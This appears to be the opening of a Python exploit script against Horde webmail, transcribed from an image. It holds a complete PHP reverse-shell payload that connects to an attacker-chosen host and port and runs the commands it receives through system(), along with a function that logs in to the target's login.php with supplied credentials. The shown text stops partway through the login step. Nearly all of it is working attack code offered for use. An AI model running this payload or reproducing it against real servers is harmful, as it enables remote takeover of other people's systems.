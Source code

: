 ```angular2
import re
import sys
import socket
import requests
import telnetlib
import base64
from threading import Thread

def rs(cbh, cbp):
    return """@error_reporting(-1);
@set_time_limit(0); 
@ignore_user_abort(1);
$dis=@ini_get('disable_functions');
if(!empty($dis)){
    $dis=preg_replace('/[, ]+/', ',', $dis);
    $dis=explode(',', $dis);
    $dis=array_map('trim', $dis);
}else{
    $dis=array();
}
$ipaddr='%s';
$port=%d;
function PtdSlhY($c){
    global $dis; 
    if (FALSE !== strpos(strtolower(PHP_OS), 'win' )) {
        $c=$c." 2>&1\\n";
    }
    ob_start();
    system($c);
    $o=ob_get_contents();
    ob_end_clean();
    if (strlen($o) === 0){
        $o = "NULL";
    }
    return $o;
}
$nofuncs='no exec functions';
$s=@fsockopen("tcp://$ipaddr",$port);
while($c=fread($s,2048)){
    $out = '';
    if(substr($c,0,3) == 'cd '){
        chdir(substr($c,3,-1));
    }else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
        break;
    }else{
        $out=PtdSlhY(substr($c,0,-1));
        if($out===false){
            fwrite($s, $nofuncs);
            break;
        }
    }
    fwrite($s,$out);
}
fclose($s);""" % (cbh, cbp)

def get_session(t, p, usr, pwd):
    uri = "http://%s%slogin.php" % (t, p)
    p = {
        "login_post" : 1337,
        "horde_user" : usr,
        "horde_pass" : pwd
    }
    r = requests.post(uri, data=p, allow_redirects=False)
```